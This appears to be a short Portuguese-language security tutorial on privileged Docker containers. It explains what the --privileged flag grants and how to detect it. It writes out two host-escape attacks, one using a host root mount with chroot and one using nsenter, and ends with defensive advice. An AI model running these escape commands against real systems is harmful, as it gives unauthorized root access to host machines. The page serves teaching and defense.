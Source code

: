 # Containers Privilegiados

⚠️ O que é um Privileged Container?

Um container com a flag --privileged tem acesso total ao host, incluindo:
	•	Todos os dispositivos (/dev)
	•	Módulos de kernel
	•	Capabilities que normalmente são restritas (como SYS_ADMIN)
	•	Possibilidade de montar volumes do host
	•	Possibilidade de usar ferramentas como nsenter, chroot, mount

⸻

🧪 Como criar um container privilegiado

docker run --rm -it --privileged alpine sh

Isso inicia um container Alpine com acesso root e todos os privilégios do host.

⸻

🔍 Como identificar se um container é privilegiado

Com docker inspect:

docker inspect CONTAINER_ID | jq '.[].HostConfig.Privileged'

Se retornar true, o container está rodando com acesso total.

⸻

💥 Exemplo de ataque: Escapar para o host

Se o container for privilegiado e tiver / montado, você pode fazer isso:

docker run --rm -it --privileged -v /:/host alpine sh
chroot /host

Você agora está dentro do sistema de arquivos do host como root.

⸻

🔓 Outro ataque: usar nsenter para invadir o host
	1.	Pegue o PID de 1 do host (ex: via docker inspect)

docker inspect -f '{{.State.Pid}}' CONTAINER_ID

	2.	Use nsenter para entrar no namespace do host:

nsenter --target PID --mount --uts --ipc --net --pid

Agora você acessou o host via container. Isso simula um escape de container via permissões privilegiadas.

⸻

🛡️ Defesa (Blue Team)
	•	Nunca use --privileged em produção
	•	Use perfis AppArmor ou SELinux para limitar containers
	•	Evite montar /var/run/docker.sock ou volumes críticos
	•	Use namespaces e controle de capabilities (--cap-drop, --cap-add)